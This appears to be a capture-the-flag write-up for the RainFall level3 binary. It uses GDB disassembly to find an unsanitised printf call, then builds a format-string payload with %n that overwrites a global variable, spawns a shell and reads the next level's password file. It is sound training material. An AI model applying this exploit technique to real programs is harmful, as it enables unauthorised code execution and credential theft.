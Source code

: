 # Level3

## Exploring the binary
```shell
level3@RainFall:~$ ./level3
phantom
phantom
level3@RainFall:~$ ./level3
society42
society42
```
Similar to the <code>level2</code> binary, our executable waits for standard input and then prints it out.

## GDB analysis
```shell
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:		push   %ebp
   0x0804851b <+1>:		mov    %esp,%ebp
   0x0804851d <+3>:		and    $0xfffffff0,%esp
   0x08048520 <+6>:		call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```
The main function calls <code>v()</code> only upon execution.
```shell
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:		push   %ebp
   0x080484a5 <+1>:		mov    %esp,%ebp
   0x080484a7 <+3>:		sub    $0x218,%esp
   0x080484ad <+9>:		mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```
Further inspection of the function draws our attention to <code>0x080484da</code>, where a variable at <code>0x804988c</code> is moved into <code>eax</code> and compared against <code>0x40</code>.
```shell
(gdb) x/s 0x804988c
0x804988c <m>:	 ""
(gdb) print 0x40
$1 = 64
```
This means there is a variable <code>m</code> which we have to modify without having any direct access to it. We check for its existence:
``` shell
(gdb) i var
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
```
Since <code>fgets()</code> is used to gather the input, buffer overflow attacks are no longer an option. While 520 bytes are allocated for the buffer (+26), the size of the input read is set to 512 bytes, effectively protecting it. The entire input string is then displayed using <code>printf()</code>, which introduces a vulnerability to a <code>format string</code> attack.

## format string attack
When the input containing format strings is passed to <code>printf()</code>, it is processed and displayed as output. If the input aligns with the expected format specifiers, it is printed correctly. However, if the input includes malicious format specifiers, it can be exploited to manipulate the output or the program's behavior. Since we know the address of <code>m</code>, we will use <code>printf()</code> to modify its value.

The format string vulnerability arises because the program utilizes user input directly in the <code>printf</code> function without adequate sanitization. By passing a string to the function and printing numerous stack addresses (<code>%p</code>) following this string, we can determine the specific stack parameter it occupies.

``` shell
level3@RainFall:~$ python -c 'print "AAAA" + " %p" * 5' > /tmp/pattern3
level3@RainFall:~$ cat /tmp/pattern3 - | ./level3
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```
We found success with just 5 addresses and discovered that the string <code>AAAA</code> resides in the fourth position. With our understanding of the format string's location in the stack, our next step is to craft a string 64 characters in length, embedding the address of the variable (<code>0x0804988c</code>) crucial for triggering the shell. Subsequently, we leverage the <code>%n</code> specifier to write this length to the specified address - when the format string <code>%4$n</code> is used, printf will write the number of characters printed so far into the memory location specified by the fourth argument.

## Exploit
``` shell
level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + "F"*60 + "%4$n"' > /tmp/flag3
level3@RainFall:~$ cat /tmp/flag3 - | ./level3
�FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
